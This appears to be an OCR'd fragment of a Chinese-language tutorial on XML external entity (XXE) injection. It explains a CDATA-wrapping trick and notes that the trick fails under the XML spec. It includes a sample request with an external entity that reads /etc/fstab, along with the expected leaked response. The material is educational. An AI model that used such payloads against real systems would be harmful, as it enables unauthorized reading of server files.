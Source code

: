 *   **理论上的解决办法**

    XML已经解决了这个问题，因为有些合法的情况可能需要在XML文件中存储XML特殊字符。`CDATA`XML解析器忽略（Character Data）标记中的特殊XML字符。

    ```
    <data><![CDATA[ < " ' & > characters are ok in here ]]></data> 
    ```

    因此，从理论上讲，攻击者可以发送类似于以下内容的请求。

    request:

    ```
    POST http://example.com/xml HTTP/1.1 `<!DOCTYPE data [

    <!ENTITY start “<![CDATA[”>

    <!ENTITY file SYSTEM

    “file:///etc/fstab”>

    <!ENTITY end “]]>”>

    <!ENTITY all “&start;&file;&end;”>

    ]>

    <data>&all;</data>` 
    ```

    预期response:

    ```
    HTTP/1.0 200 OK

    # /etc/fstab: static file system informa…

    # <file system> <mount point> <type> …

    proc  /proc  proc  defaults  0  0

    # /dev/sda5

    UUID=be35a709-c787-4198-a903-d5fdc80ab2f… # /dev/sda6

    UUID=cee15eca-5b2e-48ad-9735-eae5ac14bc9…

    /dev/scd0  /media/cdrom0  udf,iso9660 … 
    ```

    但实际上并不起作用，因为XML规范不允许将**外部实体**与**内部实体**结合使用。

##### 内部实体代码示例：

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >]> 
```
